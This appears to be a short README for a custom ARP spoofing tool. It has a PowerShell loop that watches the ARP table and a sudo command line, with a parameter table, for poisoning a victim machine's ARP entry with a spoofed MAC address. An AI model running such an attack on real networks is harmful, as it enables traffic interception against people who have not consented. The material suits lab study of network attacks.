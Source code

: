 # ARP Spoofing (but not like the others)

## Display arp table for given IP root powershell

```powershell
$IP_ROOT="200.201.202."

while ($True)
{
    $filter = (arp -a | Select-String -Pattern "^ *$IP_ROOT*" -AllMatches) -join "`n"

    Clear-Host
    Write-Host $filter

    Start-Sleep -Seconds 1
}
```

## Usage

```
sudo ./custom -spoofMAC=DE:AD:BE:EF:11:12 -targetIP=200.201.202.144 -targetMAC=00:15:5D:09:B8:34 -interface=eth1
```

Where

| Parameter | Description                                       |
|-----------|---------------------------------------------------|
| spoofMAC  | New MAC address to be set                         |
| targetIP  | Ip entry in the ARP table of victim to be altered |
| targetMAC | MAC address of the victim to send the attack to   |
| interface | Interface to use to send attack                   |

In the above command, our machine will send packets using `eth1` to the machine with MAC address `00:15:5D:09:B8:34`,
that will receive packets telling it machine with IP `200.201.202.144` has MAC address `DE:AD:BE:EF:11:12`.

